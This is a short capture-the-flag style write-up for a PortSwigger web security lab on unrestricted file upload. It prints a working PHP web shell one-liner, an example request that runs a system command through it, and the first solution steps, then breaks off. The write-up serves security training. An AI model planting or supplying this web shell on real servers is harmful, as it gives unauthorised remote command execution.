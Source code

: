 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/95a1da63-a8a2-48cd-8887-d1f17a2a1591)

## Overview :

- If we're able to successfully upload a web shell, we effectively have full control over the server.
- For example, the following PHP one-liner could be used to run commands on the server:  `<?php echo system($_GET['command']); ?>`

Once uploaded , we can pass an arbitrary system command via a query parameter as follows:

```
GET /example/exploit.php?command=id HTTP/1.1
```

## Solution :

Click on any of the blog posts. We can see that we have an option to upload files.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/907e5013-4590-426e-881f-71a47a4f85de)


Create a file name `file.php` with the contents - `<?php echo system($_GET['command']); ?>`

